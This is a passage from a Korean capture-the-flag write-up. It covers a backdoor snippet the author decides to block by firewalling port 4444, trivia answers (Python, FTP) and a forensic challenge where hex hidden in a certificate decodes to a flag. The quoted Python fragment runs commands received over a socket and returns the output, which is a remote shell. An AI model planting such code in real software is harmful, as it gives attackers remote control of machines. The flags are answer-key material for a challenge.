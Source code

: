 ```python
    shell= os.popen(newdata)
    result=shell.read()    
    print(result)
    # print(type(result))
    clientSock.send(result.encode('utf-8'))
clientSock.close()
```

코드를 살펴보니 4444번 포트로 연결을 수립하고 뭔 짓을 한다. 문제 제목을 보아하니 이를 방화벽을 써서 막으라는 것 같다.

`4444번_포트를_방화벽으로_차단해야_한다.`

### China : Interpreter?
```
1991년에 발표된 인터프리터 방식의 프로그래밍 언어로, 간결하고 쉬운 문법과 진입장벽이 낮다는 특징을 가진 언어는 무엇인가?
```

파이썬 너무조앙

`파이썬`

### Malaysia : What is it?
```
Description: 이것은 TCP/IP 네트워크 상에서 컴퓨터들이 파일을 교환하기 위해 1971년에 최초로 공개된 통신 규약이다. 네트워크에 연결된 컴퓨터끼리 데이터를 원활하게 교환하기 위한 목적으로 개발된 이것은 무엇일까?
```

FTP 프로토콜인데 역시 플래그가 정확히 기억나지 않는다.

아마 그냥 `FTP`였겠지?

-----

## FORENSIC

### Ukraine : CERTCERTCERT
우영이가 만든 문제인데 롸업을 안 던져주고 갔다. ~~너무행~~

`79 6f 75 67 6f 74 69 74 21 66 6c 61 67 7b 49 5f 63 61 6e 5f 69 6d 70 6f 72 74 5f 63 65 72 74 69 66 69 63 61 74 69 6f 6e 5f 69 6e 5f 63 65 72 74 6d 67 72 7d`

인증서가 있는데 정보를 보니 별 거 없는 것 같길래 걍 vscode로 열었는데 중간 끝부분에 이런 데이터가 있었다!

```python
print (''.join([chr(int(data, 16)) for data in '79 6f 75 67 6f 74 69 74 21 66 6c 61 67 7b 49 5f 63 61 6e 5f 69 6d 70 6f 72 74 5f 63 65 72 74 69 66 69 63 61 74 69 6f 6e 5f 69 6e 5f 63 65 72 74 6d 67 72 7d'.split(' ')]))
```

얼른 파이썬으로 한줄코딩을 해서 돌리니...

`yougotit!flag{I_can_import_certification_in_certmgr}`

오예!

`I_can_import_certification_in_certmgr`
